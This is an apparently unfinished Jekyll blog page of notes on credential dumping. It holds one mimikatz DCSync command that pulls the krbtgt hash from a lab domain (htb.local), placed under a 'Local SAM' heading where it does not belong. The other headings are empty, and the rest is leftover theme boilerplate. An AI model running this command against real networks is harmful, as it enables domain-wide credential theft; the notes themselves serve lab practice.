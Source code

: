 ```yaml
---
title: 3 - Credentials Dumping
author: RFS
date: 2023-06-02
category: Layer 2
layout: post
permalink: /credentials-dumping
cover: https://sighingnow.github.io/jekyll-gitbook/assets/dinosaur.gif
---
```




## Local SAM
```powershell
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
```
## NTDS

## LSSAS

> ##### TIP
>
> No need to push generated HTML bundle.
{: .block-tip }

[1]: https://pages.github.com
[2]: https://github.com/sighingnow/jekyll-gitbook/fork
[3]: https://pages.github.com/themes
[4]: https://docs.github.com/en/pages/setting-up-a-github-pages-site-with-jekyll/adding-a-theme-to-your-github-pages-site-using-jekyll
[5]: https://github.com/sighingnow/jekyll-gitbook/fork
[6]: https://github.com/sighingnow/jekyll-gitbook/blob/master/_config.yml
